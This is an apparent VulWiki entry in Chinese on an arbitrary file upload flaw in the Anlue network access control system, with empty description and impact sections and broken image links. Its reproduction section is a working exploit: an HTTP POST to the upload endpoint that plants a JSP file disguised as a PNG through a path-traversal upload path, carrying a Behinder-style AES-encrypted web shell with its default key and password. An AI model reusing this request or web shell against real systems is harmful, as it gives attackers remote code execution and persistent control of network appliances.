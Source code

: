 安略网络准入控制系统 任意文件上传漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

![1.png](/Users/aresx/Documents/VulWiki/.resource/安略网络准入控制系统任意文件上传漏洞/media/rId24.png){width="5.833333333333333in"
height="3.357933070866142in"}

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    HOST: www.0-sec.org
    ... ...

    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
    Content-Type: image/png

    <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="uploadpath"

    ../webapps/notifymsg/devreport/
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1--

![2.png](/Users/aresx/Documents/VulWiki/.resource/安略网络准入控制系统任意文件上传漏洞/media/rId25.png){width="5.833333333333333in"
height="1.9321555118110236in"}

![3.png](/Users/aresx/Documents/VulWiki/.resource/安略网络准入控制系统任意文件上传漏洞/media/rId26.png){width="5.833333333333333in"
height="3.0186636045494315in"}

参考链接
--------

> https://my.oschina.net/u/4391448/blog/4562455
>
> https://blog.csdn.net/God\_XiangYu/article/details/108555525
